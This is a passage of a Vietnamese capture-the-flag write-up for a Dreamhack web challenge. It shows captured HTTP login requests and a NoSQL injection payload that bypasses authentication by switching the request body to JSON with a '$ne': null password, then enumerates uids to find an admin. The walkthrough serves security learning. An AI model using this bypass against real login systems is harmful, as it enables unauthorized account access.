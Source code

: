 **B4:** Ta bắt lại gói tin POST request `/login` và edit nó thành payload có thể giúp ta Bypass như sau:
Đây là gói tin ban đầu khi bắt lại:
```
POST /login HTTP/1.1
Host: host3.dreamhack.games:18354
Content-Length: 19
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host3.dreamhack.games:18354
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host3.dreamhack.games:18354/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

uid=guest&upw=guest
```
Bình thường ta có thể thay đổi body thành: `uid=guest&upw[$ne]=null` thì ta có thể khai thác được `NoSQL Injection`, tuy nhiên do ở file `app.js` đã chặn payload trên cho nên ta không thể khai thác:
```
app.use(express.urlencoded({ extended: false }));
```
Tuy nhiên, do Website cũng xử lý `Content-Type: application/json`, do đó ta có thể lợi dụng điểm này và khai thác nó:
```
POST /login HTTP/1.1
Host: host3.dreamhack.games:18354
Content-Length: 19
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host3.dreamhack.games:18354
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host3.dreamhack.games:18354/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "uid": "guest",
  "upw": { "$ne": null }
}
```
Tiếp theo, ta sẽ thay `guest` thành các `uid` có trong danh sách `db.sql` và tìm kiếm `uid` nào có vai trò là `admin`.
